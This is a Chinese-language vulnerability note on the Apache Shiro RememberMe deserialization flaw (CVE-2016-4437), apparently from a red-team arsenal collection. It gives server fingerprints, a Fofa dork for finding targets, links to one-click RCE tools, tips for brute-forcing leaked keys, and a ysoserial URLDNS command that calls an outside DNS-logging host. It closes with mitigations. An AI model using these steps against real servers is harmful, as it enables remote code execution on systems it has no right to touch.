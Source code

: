 # Web 漏洞分析案例
来源：[2020攻防演练弹药库](https://blog.riskivy.com/2020%e6%94%bb%e9%98%b2%e6%bc%94%e7%bb%83%e5%bc%b9%e8%8d%af%e5%ba%93-%e6%82%a8%e6%9c%89%e4%b8%bb%e6%9c%ba%e4%b8%8a%e7%ba%bf%e8%af%b7%e6%b3%a8%e6%84%8f/)


## CVE-2016-4437

Apache Shiro RememberMe 反序列化导致的命令执行漏洞，也称Shiro-550。

### 漏洞简介

Apache Shiro 是企业常见的Java安全框架, 其漏洞在2019年攻防演练中起到显著作用。Apache Shiro 在 Java 的权限及安全验证框架中占用重要的一席之地，在它编号为550的 issue 中爆出严重的 Java 反序列化漏洞。

### 影响组件

Apache Shiro (由于密钥泄露的问题, 部分高于1.2.4版本的Shiro也会受到影响)

### 漏洞指纹

- ```set-Cookie: rememberMe=deleteMe```
- 或者URL中有shiro字样
- 有一些时候服务器不会主动返回 rememberMe=deleteMe, 直接发包即可

### Fofa Dork
- app="Apache-Shiro"

### 漏洞分析

【漏洞分析】Shiro RememberMe 1.2.4 反序列化导致的命令执行漏洞
https://paper.seebug.org/shiro-rememberme-1-2-4/

### 漏洞利用

wyzxxz/shiro_rce: shiro rce 反序列 命令执行 一键工具
https://github.com/wyzxxz/shiro_rce

Apache Shiro回显poc改造计划
https://mp.weixin.qq.com/s/-ODg9xL838wro2S_NK30bw

### 利用技巧

1.使用多个泄露的key进行遍历, 这个在实战中确实有效

关于Shiro反序列化漏洞的延伸—升级shiro也能被shell https://mp.weixin.qq.com/s/NRx-rDBEFEbZYrfnRw2iDw

Shiro 100 Key https://mp.weixin.qq.com/s/sclSe2hWfhv8RZvQCuI8LA

2.使用 URLDNS 进行检测提速

使用适应性最强的URLDNS(这个不受JDK版本和安全策略影响, 除非网络限制不能出DNS)进行检测

且可以使用ysoserial提前生成序列化内容

java -jar target/ysoserial-0.0.5-SNAPSHOT-all.jar URLDNS "http://1234567890.test.ceye.io" > urldns.ser

然后使用占位符+目标url hash的方法修改序列化内容中的urldns地址

提高检测速度以及后续检测无需使用ysoserial

例如 1234567890.test.ceye.io 可以换成 md5('www.qq.com').hexdigest() [:10].test.ceye.io

也就是 9d2c68d82d.test.ceye.io

可以预先记录 hash

9d2c68d82d www.qq.com

然后进行hash查表就可以知道是DNSLOG来自哪个目标, 性能会提高不少

3.已知目标使用了Shiro, 可以采取Shiro-721的报错逻辑来进行遍历key — 星光哥

这样即使DNS不能出网, 也可以通过是否返回 rememberMe=deleteMe 来断定 shiro key 的正确性, 前提是服务器有rememberMe=deleteMe相关回显

8. 防护方法

1.升级Shiro到最新版

2.升级对应JDK版本到 8u191/7u201/6u211/11.0.1 以上

3.WAF拦截Cookie中长度过大的rememberMe值

